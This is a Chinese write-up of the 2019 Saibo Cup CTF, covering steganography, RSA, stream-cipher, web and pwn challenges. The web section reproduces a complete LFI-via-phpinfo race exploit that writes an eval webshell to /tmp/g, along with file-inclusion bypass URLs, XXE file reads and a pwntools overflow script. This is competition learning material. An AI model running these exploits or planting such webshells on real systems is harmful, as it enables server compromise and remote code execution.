赛博杯2019 Write Up 前言 杭电赛博协会出得题，感觉质量还是不错的，难易兼备。以下是比赛题目部分Write Up。
MISC Sign in
扫条形码得到flag。
No Word snow加密，将文件放入010editor看他的十六进制形式，

0D0A是换行，剩下的将20转0，将09转1，得到的二进制数据，转字符串即可得到flag。
基础社工 题目介绍：大家都用着我们的数字杭电（i.hdu.edu.cn )但是对于其注册者却啥也不知道，所以小y打算去看看注册数字杭电的创始人的邮箱
flag形式为：flag{你找到的电子邮箱}
百度一个IP反查询工具，Whois查询，看看这个IP的备案，

得到flag；
The world 下载得到一张图，猜测是隐写，直接foremost分解，得到四张图，
第一张是可见的，应该没用，剩下来的，按顺序看。
第一份压缩包是加密压缩包，看了一下不是伪加密，于是放入工具进行简单爆破，得到密码abc123，得到文件：
1 2 d2abd3fb9d4c93fb064abf81f5fab84 新手村钥匙
第二份文件是一张图，猜测是LSB隐写，密码为上述字符串，测试后发现不是。继续考虑，可能是outguess加密，
1 outguess -r flag.jpg -t secret.txt -k d2abd3fb9d4c93fb064abf81f5fab84
得到文件
1 2 3 95cca6c50e48e86c468ee329ddc11047 最后一关大门的钥匙
第三份文件是一个mp3文件，猜测是MP3隐写，用MP3Stego解密，即可得到flag
Different_P hint：PIL是个好东西
下载得到两份一样的文件，试了试盲水印，发现没有用。使用Beyond Compare 4结合后发现
字符这里有点东西。根据题目提示，猜测要将两张图片的所有元素点的灰度拿来作比较，
构造脚本如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 # -*- coding:utf-8 -*- import base64 from PIL import Image im = Image.open("f1.png").convert("L") im2 = Image.open("f2.png").convert("L") width=im.size[0] #图片宽 height=im.size[1] #图片高 dd='' flag1='' for x in range(0,width): for y in range(0,height): data = im .getpixel((x,y)) data2 = im2.getpixel((x,y)) if(data!=255 or data2!=255): dd=dd+str(data-data2) for i in range (int(len(dd)/8)): word = dd[i*8:(i+1)*8] word = int(word,2) flag1 +=chr(int(word)) missing_padding = 4 - len(flag1)%4 if missing_padding: flag1+= '='*missing_padding flag = base64.b64decode(flag1) pic = open('flag.png','wb') pic.write(flag) pic.close()
得到一张图片，但是打不开，看他的十六进制数据发现文件头被改了。改回来后得到一张二维码，扫码得到flag

Crypto easy_RSA 题目文件是public.pem 和 flag.enc，先用openssl打开.pem文件
openssl rsa -pubin -text -modulus -in public.pem
得到

其中。N=>Modulus，e=>Exponent
没有更多信息与算法了，猜测这个大数可以直接分解，上yafu。随后用rsatool生成.pem文件，再用openssl解密flag.enc，得到字符串
栅栏加方向即可得到flag，
rsatool和openssl的使用参考
https://www.cnblogs.com/Byqiyou/p/9410885.html
川流不息 题目加密脚本和密文
加密脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 from parameters import a def stream(init,size): if len(init) < 5: return init result = init[:5] for index in range(size-5): mid = (result[index] * a[0]) ^ (result[index + 1] * a[1]) ^ (result[index + 2] * a[2]) ^ (result[index + 3] * a[3]) ^ (result[index+4] * a[4]) result.append(mid) return result if __name__ == '__main__': with open('flag','r') as f: flag = f.readline().strip() plain = ''.join(bin(ord(i))[2:].rjust(8,'0') for i in flag) key = stream([1,0,0,1,1,0,1,0,0,1],len(plain)) cipher = '' for i in range(len(plain)): cipher += str(int(plain[i]) ^ key[i]) print cipher
首先，根据flag前五个字符“flag{”和密文，异或可以得到key的前四十个值，然后爆破得到a
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 import base64 def stream(init,size): key=[1,0,0,1,1,0,1,0,0,1,0,0,0,0,1,0,1,0,1,1,1,0,1,1,0,0,0,1,1,1,1,1,0,0,1,1,0,1,0,0] for i in range(2): for j in range(2): for k in range(2): for p in range(2): for q in range(2): a=[i,j,k,p,q] result = init[:5] for index in range(size-5): mid = (result[index] * a[0]) ^ (result[index + 1] * a[1]) ^ (result[index + 2] * a[2]) ^ (result[index + 3] * a[3]) ^ (result[index+4] * a[4]) result.append(mid) if result==key: print(a) break if __name__ == '__main__': flag = "flag{" plain = ''.join(bin(ord(i))[2:].rjust(8,'0') for i in flag) stream([1,0,0,1,1,0,1,0,0,1],len(plain))
得到a=[1, 0, 0, 1, 0]
然后根据加密脚本，获得key。然后key与密文异或得到flag
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 def stream(init,size): if len(init) < 5: return init result = init[:5] for index in range(size-5): mid = (result[index] * a[0]) ^ (result[index + 1] * a[1]) ^ (result[index + 2] * a[2]) ^ (result[index + 3] * a[3]) ^ (result[index+4] * a[4]) result.append(mid) return result if __name__ == '__main__': a=[1, 0, 0, 1, 0] cipher = '111111000010111011011010011110000100111111010110000000100100110000001100011010111000000100100011100100010111110010101000100100011100000101011001111011101001101000111011000010000000011010000111111000111101011110111010' flag='' key = stream([1,0,0,1,1,0,1,0,0,1],len(cipher)) for i in range(len(cipher)): flag += str(int(cipher[i]) ^ key[i]) for i in range(0,len(flag),8): print(chr(int(flag[i:i+8],2)),end="")
WEB base_1 
输入
1 http://45.76.51.219:8050/?base=bXlmbGFn
得到回显
但经过测试，发现被加密后的base64字符串解密时似乎会舍弃密文末尾多余的字符（取余4后多出来的字符），于是这题就不难绕过了，
最终payload：
1 http://45.76.51.219:8050/?base=bXlmbGFn1
得到flag
truncation 进入网站，f12，发现注释：
进入sorce.php发现源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 <?php class kind { public static function checkFile(&$page) { $whitelist = ["source"=>"source.php","aa"=>"aa.php"]; if (! isset($page) || !is_string($page)) { echo "you can't see it"; return false; } if (in_array($page, $whitelist)) { return true; } $_page = mb_substr( $page, 0, mb_strpos($page . '?', '?') ); if (in_array($_page, $whitelist)) { return true; } $_page = urldecode($page); $_page = mb_substr( $_page, 0, mb_strpos($_page . '?', '?') ); if (in_array($_page, $whitelist)) { return true; } echo "you can't see it"; return false; } } if (! empty($_REQUEST['file']) && is_string($_REQUEST['file']) && kind::checkFile($_REQUEST['file']) ) { include $_REQUEST['file']; exit; } else { echo "<h>Look carefully and you will find the answer.</h><br>"; } ?>
先进入click.php，发现：flag is not here, and flag in flag.php 得到了flag的位置，那么应该是考任意文件包含漏洞
审计代码得到：
要设定page的值，且内容要在whiteList中
1 mb_substr($page,0,mb_strpos($page.'?','?'))
表示截取page中？之前的内容 接着对$page进行一次URLdecode之后，再判断一次。最后file的值为一个字符串 且 checkfile返回真值 就能包含文件file
所以最终payload：
1 http://47.110.227.208:8003/index.php?file=source.php?../../flag.php
得到一个猜密码的界面
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 <html> <head> <title>猜密码</title> </head> <body> <!-- session_start(); $_SESSION['pwd']=time(); if (isset ($_POST['password'])) { if ($_POST['pwd'] == $_SESSION['pwd']) die('Flag:'.$flag); else{ print '<p>猜测错误.</p>'; $_SESSION['pwd']=time().time(); } } --> <form action="index.php" method="post"> 密码：<input type="text" name="pwd"/> <input type="submit" value="猜密码"/> </form> </body> </html>
需要post一个赋值了的password和一个和服务器时间的值相同的pwd，脚本如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 import requests import time from bs4 import BeautifulSoup #html解析器 url="http://47.110.227.208:8003/index.php?file=source.php?../../flag.php" #目标url session=requests.session() #获取一个session对象 response=session.get(url) html=response.text #返回的页面 soup=BeautifulSoup(html,'html.parser') formData={"password":"123","pwd":"int(time.time())"}#构建一个formData，用于传我们的 re2=session.post(url,data=formData)#post过去 if("猜测错误" not in re2.text): print(re2.text)
发现无法获得flag，后来发现pwd赋值为空可以获得flag，可能是$_SESSION[‘pwd’]=time(); 没有执行成功。
Simple XXE 首先，了解一下XXE，（xml外部实体注入漏洞）
参考文章：https://www.cnblogs.com/cui0x01/p/8823690.html
（然后跟这个文章走2333）
首先f12看到dom.php存在XXE，于是构造XML文本先验证漏洞，
这一步骤将XML内容发送给服务器，当服务器将XML解析完成后，就会依照解析的内容工作，这段XML中SYSTEM "file:///etc/passwd"部分引用了目标服务器(即172.16.12.2)下的/etc/passwd文件，服务器解析XML内容后，会将这一文件内容存入&xxe中，然后将数据返回给恶意访问者。
执行完成上面的操作后，点击GO，右侧将出现此数据包的返回结果，内容如下，返回的数据为服务器上/etc/passwd文件的内容

漏洞验证成功，
于是修改XML中的外部实体为其他协议，根据提示看hint，php://filter/read=convert.base64-encode/resource=hint.php，在Proxy选项卡的原数据包中粘贴XML内容，点击FORWARD放行请求，返回的结果

解码后得到目录，
于是

解码得到flag
inclusion 进入页面，f12，发现注释 phpinfo.php
然后根据名字，猜测是php文件包含漏洞（利用phpinfo）
参考这篇文章（又是跟着文章走）https://www.cnblogs.com/xiaoqiyue/p/10158702.html
访问http://47.110.227.208:8001/lfi.php?file=/etc/passwd 验证漏洞，
成功。
文章如是说：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 先讲一下利用phpinfo上传文件，然后在文件包含的原理： 参考链接：https://github.com/vulhub/vulhub/tree/master/php/inclusion 在给PHP发送POST数据包时，如果数据包里包含文件区块，无论访问的代码中是否有处理文件上传的逻辑，php都会将这个文件保存成一个临时文件（通常是/tmp/php[6个随机字符]），这个临时文件在请求结束后就会被删除，同时，phpinfo页面会将当前请求上下文中所有变量都打印出来。但是文件包含漏洞和phpinfo页面通常是两个页面，理论上我们需要先发送数据包给phpinfo页面，然后从返回页面中匹配出临时文件名，将这个文件名发送给文件包含漏洞页面。 因为在第一个请求结束时，临时文件就会被删除，第二个请求就无法进行包含。 但是这并不代表我们没有办法去利用这点上传恶意文件，只要发送足够多的数据，让页面还未反应过来，就上传我们的恶意文件，然后文件包含： 1）发送包含了webshell的上传数据包给phpinfo，这个数据包的header，get等位置一定要塞满垃圾数据； 2）phpinfo这时会将所有数据都打印出来，其中的垃圾数据会将phpinfo撑得非常大 3）PHP默认缓冲区大小是4096，即PHP每次返回4096个字节给socket连接 4）所以，我们直接操作原生socket，每次读取4096个字节，只要读取到的字符里包含临时文件名，就立即发送第二个数据包 5）此时，第一个数据包的socket连接其实还没有结束，但是PHP还在继续每次输出4096个字节，所以临时文件还未被删除 6）我们可以利用这个时间差，成功包含临时文件，最后getshell
利用脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 #!/usr/bin/python import sys import threading import socket def setup(host, port): TAG="Security Test" PAYLOAD="""%s\r <?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG REQ1_DATA="""-----------------------------7dbff1ded0714\r Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r Content-Type: text/plain\r \r %s -----------------------------7dbff1ded0714--\r""" % PAYLOAD padding="A" * 5000 REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r HTTP_ACCEPT: """ + padding + """\r HTTP_USER_AGENT: """+padding+"""\r HTTP_ACCEPT_LANGUAGE: """+padding+"""\r HTTP_PRAGMA: """+padding+"""\r Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r Content-Length: %s\r Host: %s\r \r %s""" %(len(REQ1_DATA),host,REQ1_DATA) #modify this to suit the LFI script LFIREQ="""GET /lfi.php?file=%s HTTP/1.1\r User-Agent: Mozilla/4.0\r Proxy-Connection: Keep-Alive\r Host: %s\r \r \r """ return (REQ1, TAG, LFIREQ) def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag): s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect((host, port)) s2.connect((host, port)) s.send(phpinforeq) d = "" while len(d) < offset: d += s.recv(offset) try: i = d.index("[tmp_name] => ") fn = d[i+17:i+31] except ValueError: return None s2.send(lfireq % (fn, host)) d = s2.recv(4096) s.close() s2.close() if d.find(tag) != -1: return fn counter=0 class ThreadWorker(threading.Thread): def __init__(self, e, l, m, *args): threading.Thread.__init__(self) self.event = e self.lock = l self.maxattempts = m self.args = args def run(self): global counter while not self.event.is_set(): with self.lock: if counter >= self.maxattempts: return counter+=1 try: x = phpInfoLFI(*self.args) if self.event.is_set(): break if x: print "\nGot it! Shell created in /tmp/g" self.event.set() except socket.error: return def getOffset(host, port, phpinforeq): """Gets offset of tmp_name in the php output""" s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect((host,port)) s.send(phpinforeq) d = "" while True: i = s.recv(4096) d+=i if i == "": break # detect the final chunk if i.endswith("0\r\n\r\n"): break s.close() i = d.find("[tmp_name] => ") if i == -1: raise ValueError("No php tmp_name in phpinfo output") print "found %s at %i" % (d[i:i+10],i) # padded up a bit return i+256 def main(): print "LFI With PHPInfo()" print "-=" * 30 if len(sys.argv) < 2: print "Usage: %s host [port] [threads]" % sys.argv[0] sys.exit(1) try: host = socket.gethostbyname(sys.argv[1]) except socket.error, e: print "Error with hostname %s: %s" % (sys.argv[1], e) sys.exit(1) port=80 try: port = int(sys.argv[2]) except IndexError: pass except ValueError, e: print "Error with port %d: %s" % (sys.argv[2], e) sys.exit(1) poolsz=10 try: poolsz = int(sys.argv[3]) except IndexError: pass except ValueError, e: print "Error with poolsz %d: %s" % (sys.argv[3], e) sys.exit(1) print "Getting initial offset...", reqphp, tag, reqlfi = setup(host, port) offset = getOffset(host, port, reqphp) sys.stdout.flush() maxattempts = 1000 e = threading.Event() l = threading.Lock() print "Spawning worker pool (%d)..." % poolsz sys.stdout.flush() tp = [] for i in range(0,poolsz): tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag)) for t in tp: t.start() try: while not e.wait(1): if e.is_set(): break with l: sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts)) sys.stdout.flush() if counter >= maxattempts: break print if e.is_set(): print "Woot! \m/" else: print ":(" except KeyboardInterrupt: print "\nTelling threads to shutdown..." e.set() print "Shuttin' down..." for t in tp: t.join() if __name__=="__main__": main()

运行脚本

（表示后来没有上传成功，但似乎有大佬先上传成功了，所以后面的步骤我也能继续做）
先验证是否上传成功
嗯，的确有大佬上传成功了，连文件名也一样，好的，谢谢了。getsheell
于是
flag应该在那个奇怪名字的文件里吧
果然，

拿到flag
这题的关键还是上传有大量垃圾数据的恶意文件吧。（所以哪位大佬上传成功了）
PWN hardpwn 导入IDA后，发现需要覆盖运行参数（即argv），因为栈溢出很长且可以覆盖到该参数，所以可以考虑直接覆盖
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 from pwn import * context.log_level = "debug" context.arch = "amd64" elf = ELF("pwn1") sh = 0 lib = 0 def pwn(ip,port,debug): global sh global lib if(debug == 1): sh = process("./pwn1") else: sh = remote(ip,port) payload = '\x00' * 120 +"aaaa" + "\x00" sh.send(payload) sh.interactive() if __name__ == "__main__": pwn("47.110.227.208",10001,0)
stackpwn 导入IDA后，发现没有puts、write等，只有read且有溢出，那么这道题就是典型的考察ret2_dl_resolve，用ctf-wiki的脚本改一下就可以拿到shell了
利用roputils简化攻击
